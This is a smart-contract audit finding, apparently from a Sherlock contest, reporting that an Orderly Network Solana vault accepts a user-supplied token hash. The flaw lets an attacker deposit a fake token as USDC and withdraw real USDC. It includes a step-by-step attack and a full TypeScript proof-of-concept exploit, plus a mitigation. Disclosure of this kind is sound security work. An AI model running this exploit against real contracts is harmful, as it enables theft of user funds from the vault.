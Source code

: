 Petite Pecan Starfish

High

# malicious user can drain solana vault

### Summary
malicious user can drain solana vault
### Root Cause
admin can specity which tokens can deposit into solana vault and for every token a token hash will be generated and when a user want to deposit into vault they should send token hash as a parameter and based on that solana vault give them permission to deposit into vault but this is a wrong and malicious user can bypass that

### PoC

**Textual PoC:**
1-admin call set_token with usdc as parameter,its mean users just can deposit usdc
2-malicious user mints a fake token and then create a token account with fake token
3-malicious user call deposit instruction with token account belongs to fake token and token hash generated for usdc as a paramter
4-deposit function send a message to layer zero with usdc token hash as a parameter
5-ledger will be updated by received message from layer zero
6-malicious user requests withdrawal siguature
7-orderly network execute user's withdrawal request and send usdc to receiver instead of fake token

**Coded PoC:**
please run commands based on [readme](https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract-rickkk137/tree/main/solana-vault/packages/solana/contracts) and then replace 05deposit_vault.ts
<details>

<summary>
PoC
</summary>
    
```typescript
import * as anchor from "@coral-xyz/anchor";
import { Keypair, PublicKey, SystemProgram, Transaction, ComputeBudgetProgram, sendAndConfirmTransaction } from "@solana/web3.js";
import { hexlify } from '@ethersproject/bytes'

import { OftTools } from "@layerzerolabs/lz-solana-sdk-v2";
import { Options } from "@layerzerolabs/lz-v2-utilities";
import * as utils from "./utils";
import * as constants from "./constants";
import { PacketPath } from '@layerzerolabs/lz-v2-utilities'
import { EndpointProgram, EventPDADeriver, SimpleMessageLibProgram, UlnProgram } from '@layerzerolabs/lz-solana-sdk-v2'




import OAppIdl from "../target/idl/solana_vault.json";
import { SolanaVault } from "../target/types/solana_vault";
import { utf8 } from "@coral-xyz/anchor/dist/cjs/utils/bytes";
const OAPP_PROGRAM_ID = new PublicKey(OAppIdl.metadata.address);
const OAppProgram = anchor.workspace.SolanaVault as anchor.Program<SolanaVault>;

const [provider, wallet, rpc] = utils.setAnchor();



async function deposit() {
    console.log("Setting up Vault...");
    const lookupTableAddresses = utils.printPda(OAPP_PROGRAM_ID, wallet, rpc);
    const senderAddress = wallet.publicKey;
    // const receiverAddress = new PublicKey("4bbnSXvV48dPEecRwbaQwWw4ajXKiMuUvN29zNY1LqY3");
    const receiverAddress = senderAddress;
    const usdc = constants.DEV_FAKE_ACCOUNT;
    const userUSDCAccount = await utils.createUSDCAccount(provider, wallet, usdc, wallet.publicKey);
    console.log("💶 User USDCAccount", userUSDCAccount.toBase58());

    console.log("p1_usdc:", usdc)
    console.log("p1_constants.MOCK_USDC_ACCOUNT:", constants.MOCK_USDC_ACCOUNT)
    // if (usdc === constants.MOCK_USDC_ACCOUNT && provider.connection.rpcEndpoint === constants.LOCAL_RPC) {
        const amountToMint = 10000;
        await utils.mintUSDC(provider, wallet, usdc, userUSDCAccount, amountToMint);


    // }
    let fakeUserBalance = await provider.connection.getBalance(userUSDCAccount)
    console.log("usdc_user_balance:", fakeUserBalance.toString())

    const vaultAuthorityPda = utils.getVaultAuthorityPda(OAPP_PROGRAM_ID);
    console.log("🔑 Vault Deposit Authority PDA:", vaultAuthorityPda.toBase58());

    const vaultUSDCAccount = await utils.getUSDCAccount(usdc, vaultAuthorityPda);
    console.log("💶 Vault USDCAccount", vaultUSDCAccount.toBase58());

    const brokerId = "woofi_pro";
    const tokenSymbol = "USDC";
    const brokerHash = utils.getBrokerHash(brokerId);
    console.log("Broker Hash:", brokerHash);
    const codedBrokerHash = Array.from(Buffer.from(brokerHash.slice(2), 'hex'));
    const tokenHash = utils.getTokenHash(tokenSymbol);
    console.log("Token Hash:", tokenHash);

    const codedTokenHash = Array.from(Buffer.from(tokenHash.slice(2), 'hex'));
    const solAccountId = utils.getSolAccountId(receiverAddress, brokerId); 
    console.log("Sol Account Id:", solAccountId);
    const codedAccountId = Array.from(Buffer.from(solAccountId.slice(2), 'hex'));
    

    console.log("fake_address:", usdc)
    const vaultDepositParams = {
        accountId:  codedAccountId,
        brokerHash: codedBrokerHash,
        tokenHash:  codedTokenHash,
        userAddress: Array.from(receiverAddress.toBuffer()),
        tokenAmount: new anchor.BN(5000_000_000_000),
    };


    

    const sendParam = {
        nativeFee: new anchor.BN(1_000_000_000),
        lzTokenFee: new anchor.BN(0),
    }
    const allowedBrokerPda = utils.getBrokerPda(OAPP_PROGRAM_ID, brokerHash);
    const allowedTokenPda = utils.getTokenPda(OAPP_PROGRAM_ID, tokenHash);

    const ixDepositEntry = await OAppProgram.methods.deposit(vaultDepositParams, sendParam).accounts({
        userTokenAccount: userUSDCAccount,
        vaultAuthority: vaultAuthorityPda,
        vaultTokenAccount: vaultUSDCAccount,
        depositToken: usdc,
        user: wallet.publicKey,
        peer: lookupTableAddresses[2],
        enforcedOptions: lookupTableAddresses[5],
        oappConfig: lookupTableAddresses[0],
        allowedBroker: allowedBrokerPda,
        allowedToken: allowedTokenPda
    }).remainingAccounts([
                    // ENDPOINT solana/programs/programs/uln/src/instructions/endpoint/send.rs
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.ENDPOINT_PROGRAM_ID,
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[0],
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.SEND_LIB_PROGRAM_ID
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[7], 
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[9], 
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[8], 
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[14], 
                    },
                    {
                        isSigner: false,
                        isWritable: true,
                        pubkey: lookupTableAddresses[15], 
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[3], 
                    },
                    // ULN solana/programs/programs/uln/src/instructions/endpoint/send.rs
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.ENDPOINT_PROGRAM_ID,
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[13],
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[10],
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[11],
                    },
                    {
                        isSigner: true,
                        isWritable: false,
                        pubkey: wallet.publicKey,
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.TREASURY_PROGRAM_ID,
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: SystemProgram.programId,
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[12], 
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.SEND_LIB_PROGRAM_ID
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.EXECUTOR_PROGRAM_ID
                    },
                    {
                        isSigner: false,
                        isWritable: true,
                        pubkey: lookupTableAddresses[16]
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.PRICE_FEED_PROGRAM_ID
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[17]
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.DVN_PROGRAM_ID
                    },
                    {
                        isSigner: false,
                        isWritable: true,
                        pubkey: lookupTableAddresses[18]
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: constants.PRICE_FEED_PROGRAM_ID 
                    },
                    {
                        isSigner: false,
                        isWritable: false,
                        pubkey: lookupTableAddresses[17]
                    }
    ]).instruction();

    const ixAddComputeBudget = ComputeBudgetProgram.setComputeUnitLimit({ units: 400_000 });

    console.log("Deposit Entry:");
    
    await utils.createAndSendV0TxWithTable(
        [ixDepositEntry, ixAddComputeBudget],
        provider,
        wallet,
        lookupTableAddresses,
        OAPP_PROGRAM_ID
    );
    
    
}

deposit();

``` 
   
</details>

### Code Snippet
https://github.com/sherlock-audit/2024-09-orderly-network-solana-contract/blob/main/solana-vault/packages/solana/contracts/programs/solana-vault/src/instructions/vault_instr/deposit.rs#L85

### Impact
1-malicious user can bypass allowed token hash
2-malicious user can drain vault

### Mitigation
consider to generate token hash in deposit instruction instead of get that from user



